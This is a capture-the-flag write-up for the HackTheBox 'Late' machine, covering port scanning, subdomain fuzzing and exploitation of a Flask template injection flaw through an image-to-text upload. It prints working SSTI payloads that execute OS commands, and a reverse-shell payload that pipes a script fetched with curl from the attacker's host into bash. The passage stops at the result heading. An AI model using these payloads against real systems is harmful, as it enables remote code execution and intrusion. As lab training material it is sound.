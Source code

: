 # Late 
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5f238aa8-4222-42c6-8b9f-a9a9ed488089)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.156 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-16 00:03 PDT
Nmap scan report for late.htb (10.10.11.156)
Host is up (0.072s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 025e290ea3af4e729da4fe0dcb5d8307 (RSA)
|   256 41e1fe03a5c797c4d51677f3410ce9fb (ECDSA)
|_  256 28394698171e461a1ea1ab3b9a577048 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.66 seconds
```

1. Based from the nmap results, the machine runs a web application service and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9fb306c7-1739-4dc5-80cc-b8f9cbad4ac2)


2. Scrolling down, there's another link which redirects to another subdommain --> images.late.htb.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f2b77347-64f0-4ef0-8181-45eb4a5ddff1)


> images.late.htb

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/007a61cf-d04c-4d43-ab18-d7f339278b24)


> Running wfuzz to check another subdomain --> found only images.late.htb.

```
wfuzz -u "http://late.htb" -H "Host: FUZZ.late.htb" -w SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 9461
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cf0e6f3e-68b4-4bc7-9c3b-ee01891249e8)


3. Interesting, since it said that it built with Flask, hence it could related to SSTI vuln.
4. Let's check that by uploading a file which has regex operation such --> {{ 7*7 }}.
5. I used [this](https://smallseotools.com/text-to-image/) online tool to convert text to image with ease.
6. After uploaded the image, automatically we got this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/517934d4-4034-4c13-b418-75f11326dab7)


```
┌──(brandy㉿bread-yolk)-[~/Downloads]
└─$ cat results.txt
<p>49
</p>
```

7. Great! This should be our foothold.
8. Let's try to run simple SSTI payload to check whether there is filter.

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf026a13-e379-4b42-925b-5d8a5d5c5198)


9. To fix this I tried to change the font to monospace, background color to black, font color to white, and zoom level max.

```
┌──(brandy㉿bread-yolk)-[~/Downloads]
└─$ cat results.txt
<p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)

</p>
```

10. Nice! Even the basic payload is executed, let's send our reverse shell payload.

> PAYLOAD

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b4ab6cd4-f645-47e8-8300-7775c36f35a9)


> What to send

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl 10.10.16.20/f | bash').read()}}
```

#### NOTES:

```
Change "bash" to "sh" won't work. 
```

11. So what to do now is, convert the SSTI payload to image file, then set a listener on port 1337, lastly set python server (because we want to curl a file from our local machine). Send the image.

> RESULT






